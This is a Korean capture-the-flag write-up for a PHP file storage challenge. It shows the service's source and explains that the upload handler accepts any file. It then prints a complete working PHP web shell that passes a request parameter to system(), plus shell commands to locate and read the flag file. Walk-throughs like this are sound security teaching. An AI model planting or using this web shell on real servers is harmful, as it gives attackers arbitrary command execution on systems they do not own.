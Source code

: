 # image-storage WriteUp
php로 작성된 파일 저장 서비스이다. 파일 업로드 취약점을 이용해 flag 를 획득해야한다 플래그는 `flag.txt`에 있다


# 코드 분석

### index.php
```
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

index.php는 list.php와 upload.php로 이동하는 메뉴가 있다


### list.php
list.php 내용에 대해서 보겠다. 

```
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
         echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

list.php는 $directory 파일들중 ..(상위 디렉터리), .(현재 디렉터리), index.html 을 제외하고 나열한다

### upload.php

```
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

이용자가 업로드한 파일을 uploads 디렉터리에 복사하고, `/uploads` 엔드포인트를 통해서 접속이 가능하다 만약 같은 파일의 이름이 있다면 already exists 메시지 반환. 여기서 중요한 점은 업로드할 파일에 대해 어떠한 검사를 하지 않으며, 웹쉘 업로드에 공격에 대해서 취약한 것을 파악할 수 있다.

구글에서 simple php websehll github 검색 후에 간단한 웹쉘 코드를 생성하여 파일을 업로드 한다

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

이후 `/list`에 접속해 웹쉘을 실행시키면 cmd 화면이 뜨는데 거기서 ls 명령어를 쳐서 잘 동작하는지 확인한다 

```
# flag.txt 찾기
find / -name "flag.txt"

/flag.txt


# flag 획득
cat /flag.txt

DH{flag 가리기!!}
```